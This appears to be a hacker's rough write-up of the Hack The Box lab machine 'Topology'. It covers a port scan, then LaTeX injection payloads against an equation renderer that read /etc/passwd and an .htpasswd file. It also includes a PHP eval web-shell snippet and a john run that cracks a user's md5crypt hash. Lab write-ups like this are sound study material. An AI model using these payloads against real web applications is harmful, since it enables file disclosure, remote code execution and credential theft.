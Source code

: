 ```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 23:54 EDT
Nmap scan report for 10.10.11.217
Host is up (0.43s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 72.38 seconds
```
adding topology.htb to /etc/hosts

http://latex.topology.htb/equation.php

```
GET /equation.php?eqn=H%2Bm&submit= HTTP/1.1
Host: latex.topology.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://latex.topology.htb/equation.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
it makes an image at 
http://latex.topology.htb/equation.php?eqn=H%2Bm&submit=

![](20230705000826.png)

may not be vulnerable to injection attacks

### Latex injection attacks

https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#latex-injection

when trying with input : 
\input{/etc/passwd}

![](20230705003320.png)

so there maybe a filter

when trying `\openin\file=/etc/passwd`
we have 

\begin{filecontents*}{someb0dy1.php}
<?php @eval($_POST['cmd]); ?>
\end{filecontents*}

this worked
$\lstinputlisting{/etc/passwd}$

$\lstinputlisting{/var/www/dev/.htpasswd}$

![](20230705021428.png)

vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

`john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt` 

Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (?)     
1g 0:00:00:07 DONE (2023-07-05 02:23) 0.1308g/s 130328p/s 130328c/s 130328C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

we know taht /opt/gnuplot a program is running

![](20230705032038.png)



